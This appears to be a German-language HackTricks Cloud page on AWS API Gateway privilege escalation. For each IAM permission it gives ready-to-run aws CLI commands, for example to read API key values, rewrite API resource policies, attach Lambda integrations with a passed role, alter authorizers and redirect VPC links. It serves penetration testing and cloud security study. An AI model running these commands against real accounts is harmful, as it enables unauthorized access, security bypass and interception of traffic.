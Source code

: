 # AWS - Apigateway Privesc

{% hint style="success" %}
Lerne & übe AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Lerne & übe GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Überprüfe die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Tritt der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folge** uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teile Hacking-Tricks, indem du PRs zu den** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos einreichst.

</details>
{% endhint %}

## Apigateway

Für weitere Informationen siehe:

{% content-ref url="../aws-services/aws-api-gateway-enum.md" %}
[aws-api-gateway-enum.md](../aws-services/aws-api-gateway-enum.md)
{% endcontent-ref %}

### `apigateway:POST`

Mit dieser Berechtigung kannst du API-Schlüssel der konfigurierten APIs (pro Region) generieren.
```bash
aws --region <region> apigateway create-api-key
```
**Potenzielle Auswirkungen:** Mit dieser Technik können Sie keine Privilegien erhöhen, aber Sie könnten Zugang zu sensiblen Informationen erhalten.

### `apigateway:GET`

Mit dieser Berechtigung können Sie die generierten API-Schlüssel der konfigurierten APIs (pro Region) abrufen.
```bash
aws --region <region> apigateway get-api-keys
aws --region <region> apigateway get-api-key --api-key <key> --include-value
```
**Potenzielle Auswirkungen:** Mit dieser Technik können Sie keine Privilegien erhöhen, aber Sie könnten Zugang zu sensiblen Informationen erhalten.

### `apigateway:UpdateRestApiPolicy`, `apigateway:PATCH`

Mit diesen Berechtigungen ist es möglich, die Ressourcenrichtlinie einer API zu ändern, um sich selbst den Zugriff zu gewähren, sie aufzurufen und potenzielle Zugriffe, die das API-Gateway haben könnte, auszunutzen (wie das Auslösen eines verwundbaren Lambda).

{% code overflow="wrap" %}
```bash
aws apigateway update-rest-api \
--rest-api-id api-id \
--patch-operations op=replace,path=/policy,value='"{\"jsonEscapedPolicyDocument\"}"'
```
{% endcode %}

**Potenzielle Auswirkungen:** Sie werden normalerweise nicht direkt mit dieser Technik privesc erreichen können, aber Sie könnten Zugang zu sensiblen Informationen erhalten.

### `apigateway:PutIntegration`, `apigateway:CreateDeployment`, `iam:PassRole`

{% hint style="info" %}
Muss getestet werden
{% endhint %}

Ein Angreifer mit den Berechtigungen `apigateway:PutIntegration`, `apigateway:CreateDeployment` und `iam:PassRole` kann **eine neue Integration zu einer bestehenden API Gateway REST API mit einer Lambda-Funktion hinzufügen, die eine IAM-Rolle zugewiesen hat**. Der Angreifer kann dann **die Lambda-Funktion auslösen, um beliebigen Code auszuführen und möglicherweise Zugriff auf die mit der IAM-Rolle verbundenen Ressourcen zu erhalten**.

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
RESOURCE_ID="your-resource-id"
HTTP_METHOD="GET"
LAMBDA_FUNCTION_ARN="arn:aws:lambda:region:account-id:function:function-name"
LAMBDA_ROLE_ARN="arn:aws:iam::account-id:role/lambda-role"

# Add a new integration to the API Gateway REST API
aws apigateway put-integration --rest-api-id $API_ID --resource-id $RESOURCE_ID --http-method $HTTP_METHOD --type AWS_PROXY --integration-http-method POST --uri arn:aws:apigateway:region:lambda:path/2015-03-31/functions/$LAMBDA_FUNCTION_ARN/invocations --credentials $LAMBDA_ROLE_ARN

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**Potenzielle Auswirkungen**: Zugriff auf Ressourcen, die mit der IAM-Rolle der Lambda-Funktion verbunden sind.

### `apigateway:UpdateAuthorizer`, `apigateway:CreateDeployment`

{% hint style="info" %}
Muss getestet werden
{% endhint %}

Ein Angreifer mit den Berechtigungen `apigateway:UpdateAuthorizer` und `apigateway:CreateDeployment` kann **einen bestehenden API Gateway-Autorisierer ändern**, um Sicherheitsüberprüfungen zu umgehen oder um beliebigen Code auszuführen, wenn API-Anfragen gestellt werden.

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
AUTHORIZER_ID="your-authorizer-id"
LAMBDA_FUNCTION_ARN="arn:aws:lambda:region:account-id:function:function-name"

# Update the API Gateway authorizer
aws apigateway update-authorizer --rest-api-id $API_ID --authorizer-id $AUTHORIZER_ID --authorizer-uri arn:aws:apigateway:region:lambda:path/2015-03-31/functions/$LAMBDA_FUNCTION_ARN/invocations

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**Potenzielle Auswirkungen**: Umgehung von Sicherheitsprüfungen, unbefugter Zugriff auf API-Ressourcen.

### `apigateway:UpdateVpcLink`

{% hint style="info" %}
Muss getestet werden
{% endhint %}

Ein Angreifer mit der Berechtigung `apigateway:UpdateVpcLink` kann **einen bestehenden VPC-Link ändern, um auf einen anderen Netzwerk-Load-Balancer zu verweisen, wodurch privater API-Verkehr möglicherweise an unbefugte oder bösartige Ressourcen umgeleitet wird**.
```bash
bashCopy codeVPC_LINK_ID="your-vpc-link-id"
NEW_NLB_ARN="arn:aws:elasticloadbalancing:region:account-id:loadbalancer/net/new-load-balancer-name/50dc6c495c0c9188"

# Update the VPC Link
aws apigateway update-vpc-link --vpc-link-id $VPC_LINK_ID --patch-operations op=replace,path=/targetArns,value="[$NEW_NLB_ARN]"
```
**Potenzielle Auswirkungen**: Unbefugter Zugriff auf private API-Ressourcen, Abfangen oder Stören des API-Verkehrs.

{% hint style="success" %}
Lerne & übe AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Lerne & übe GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Unterstütze HackTricks</summary>

* Überprüfe die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Tritt der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folge** uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teile Hacking-Tricks, indem du PRs zu den** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos einreichst.

</details>
{% endhint %}
